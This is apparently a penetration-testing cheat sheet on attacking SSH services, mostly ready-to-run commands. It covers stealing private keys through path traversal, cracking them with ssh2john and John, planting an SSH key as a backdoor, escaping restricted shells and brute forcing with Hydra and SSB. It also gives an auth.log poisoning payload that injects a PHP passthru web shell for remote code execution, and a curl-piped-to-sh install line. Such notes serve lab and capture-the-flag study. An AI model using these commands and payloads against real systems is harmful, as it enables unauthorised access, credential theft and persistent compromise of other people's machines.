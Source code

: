 ```yaml
---
layout: default
title: SSH
parent: TCP
nav_order: 4-2
---
```

# SSH | 22
## Methodology
- Do you have alid credentials?
- Do you have real system-level users in which to access SSH with?
- ALWAYS check for user password re-use
- Dealing with id_rsa files - ALWAYS chmod 600 id_rsa
- Collect user SSH keys if able to read: "id_rsa" e.g. somefile.php?file=../../../../home/user/.ssh/id_rsa
- If able to write, drop a SSH key into the user or root directory for login (/root/.ssh/id_rsa)
- Are you able to read the SSH logs (SSH Log Poisoning): /var/log/auth.log

<br/>
#### Restrictive Shell
If you have access to the <i>echo</i> command it is possible to use the built-in API to break out:
``` echo os.system("/bin/bash")```
Break out of <b> RBash </b>:
``` ssh restricted@$IP -p 31678 -t "bash --noprofile" ```
OR
```ssh user@$IP "/bin/sh"```

<br />
#### Check the following locations for private keys:
<ul>
<li>/home/* </li>
<li>/root/.ssh/* </li>
<li>/etc/ssh/ssh_config</li>
<li> /etc/ssh/sshd/ssh_config</li>
<li> ~/.ssh/*</li>
</ul>

<br />
#### Identify the host for the private key:
Check the following locations:
<ul>
<li> /etc/hosts </li>
<li> ~/.known_hosts </li>
<li> ~/.bash_history </li>
<li> ~/.ssh/config </li>
</ul>

<br />
#### Command Reference
<b> Search for files containing SSH Keys:</b>
```grep -ir "-----BEGIN RSA PRIVATE KEY-----" /home/*```
```grep -ir "BEGIN DSA PRIVATE KEY" /*```
<b> SSH with id_rsa </b>
``` ssh -i id_rsa user@$IP ```
<b> Crack id_rsa with John (SSH2John) </b>
``` ssh2john id_rsa > crackthis
john crackthis --wordlist=/usr/share/wordlists/rockyou.txt```
<b> SSH Keygen & Back Door (post exploitation) </b>
Generate a new SSH key pair with:
```ssh-keygen -b 2048 -t rsa -f ~/.ssh/new-key-name
chmod 600 new-key-name```
Drop the 'new-key-name.pub' file into the target /home/usr/.ssh directory.
Connect with:
```ssh -i new-key-name user@$IP```

<br />
### Tools
- <a href="https://github.com/pwnesia/ssb"> Secure Shell Bruteforcer (SSB) </a>
```curl -sSfL 'https://git.io/kitabisa-ssb' | sh -s -- -b /usr/local/bin ```
```ssb [-p port] [-w wordlist.txt] [-t timeout]
      [-c concurrent] [-r retries] [-o output] [user@]hostname```

<br />
#### SSH Log Poisoning
RCE via SSH Log Poisoning:
Example PHP web server (capable of viewing the logs):
- Enter something like: ```testlogpoisoning/<?php passthru($_GET['cmd']); ?>``` 
- Refresh the accessible log page - find the newest entry (towards the bottom) and you may see the characters 'testlogpoisoning/'
> this verifies command execution after the format '/' providing executive authority over the machine
``` https://example.com/somefile.php?file=../../../../var/log/auth.log&cmd=id ```
> reopen the file, scroll down and find the results of the command printed

<br />
#### SSH Brute Force
- Hydra
``` hydra -V -L UserList -P PasswordList ssh://$IP ```
- SSB

<br />
#### SSH 'should' be running?
- Is there a HTTP proxy on the server? SSH may be running but not open to the world - instead of on 0.0.0.0, it may be local on 127.0.0.1
- If this is the case, it is possible to forward out the loopback address with <b> proxytunnel </b>
``` proxytunnel -p $IP:3128 -d 127.0.0.1:22 -a 4444 ```
> Spawn a daemon on our attacking machine (accessible on 4444)
``` ssh user@127.0.0.1 -p 4444 ```

<br />
###### [REFERENCES]
<a href="https://highon.coffee/blog/ssh-lateral-movement-cheat-sheet/#what-is-a-lateral-movement"> SSH Lateral Movement Cheatsheet </a>
